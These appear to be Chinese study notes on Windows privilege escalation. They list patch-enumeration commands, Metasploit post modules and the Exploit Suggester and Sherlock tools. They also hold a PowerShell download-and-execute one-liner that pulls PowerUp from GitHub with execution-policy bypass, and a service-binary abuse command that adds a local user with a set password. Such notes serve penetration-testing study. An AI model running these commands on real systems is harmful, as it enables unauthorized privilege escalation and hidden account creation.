 # 权限提升分析及防御
+ USER :普通用户权限
+ Administrator :管理员权限
+ System :系统权限
+ TrustedInstaller :windows中最高权限,可以修改系统文件
+ 纵向提权 :低权限角色获得高权限角色的权限
+ 横向提权 :获取同级别角色权限,例如,在A系统中获取了系统B的权限
## 4.1 系统内核溢出漏洞提权
### 4.1.1 通过手动执行命令发现缺失补丁
//查看当前权限
`whoami /groups`
//获取系统信息
`systeminfo`
//列出已经安装的补丁
`wmic qfe get Caption,description,hotfixid,installedon`
//直接查找是否安装指定的补丁
`wmic qfe get Caption,description,hotfixid,installedon | findstr /C:"KB3143141" /C:"KB76902"`
### 4.1.2 利用metasploit发现缺失补丁
//根据漏洞编号快速找出系统中缺少的补丁
`post/windows/gather/enum_patches`
//快速识别系统中可能被利用的漏洞,类似Windows exploit suggester
`post/multi/recon/local_exploit_suggester`

### 4.1.3 Windows exploit suggester
```
//更新漏洞库
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -d 漏洞库 -i systeminfo.txt
```
### 4.1.4 Powershell中的Sherlock脚本
```powershell
import-module c:\sherlock.ps1
//搜索所有未安装的补丁
Find-allVulns
//搜索指定补丁
powershell Find-MS14058
```
## 4.2 windows操作系统配置错误利用分析及防御
### 4.2.1 系统服务权限配置错误
> 服务未运行 :使用任意服务替换原来的服务,然后重启服务
> 服务这些横在运行且无法被终止 :利用DLL劫持技术并重启服务
+ PowerUP下的实战利用 (powershell)
//本地
``
powershell.exe -exec bypass -command "& {import-module .\powerup.ps1; invoke-allchecks}"
``
//远程
```
powershell.exe -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUP/PowerUP.ps1'); invoke-AllChecks"
```
//metasploit中运行
略
> powerup列出了可能存在问题的搜有服务,并在AbuseFunction部分给出了利用方式
> 根据AbuseFunction部分给出的利用方式,利用install-sercvicebinary模块,通过weite-servicebinary编写一个C#服务来添加用户
```
powershell.exe -nop -exec bypass IEX (new-object Net.webclient).downloadstring('c:/powerup.ps1');install-servicebinary -servicename 'OmniServers' -UserName shuteer -Password Password123!
```